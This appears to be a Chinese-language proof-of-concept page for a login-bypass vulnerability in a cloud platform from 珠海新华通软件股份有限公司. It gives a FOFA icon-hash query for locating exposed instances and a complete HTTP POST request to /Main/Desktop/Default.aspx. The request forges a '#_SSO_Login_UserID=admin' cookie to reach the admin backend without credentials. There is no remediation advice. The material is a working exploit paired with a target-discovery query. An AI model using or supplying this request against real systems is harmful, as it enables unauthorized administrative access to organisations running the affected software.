 # 珠海新华通软件股份有限公司云平台存在登录绕过漏洞

珠海新华通软件股份有限公司云平台存在登录绕过漏洞，漏洞允许攻击者通过简单操作，如添加特定Cookie或修改请求参数，绕过身份验证直接访问后台，从而对系统安全构成严重威胁。

## fofa

```javascript
icon_hash="513304261"
```

## POC

```javascript
POST /Main/Desktop/Default.aspx HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Length: 166
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: ASP.NET_SessionId=x01ftldfm5dwbbo1tx1ne1kv; #_SSO_Login_UserID=admin; #_SSO_Login_UserID_Guid=
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

请求/Main/Desktop/Default.aspx  加cookie认证`#_SSO_Login_UserID=admin `  即可绕过登录进入后台

![image-20240831234213408](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408312342494.png)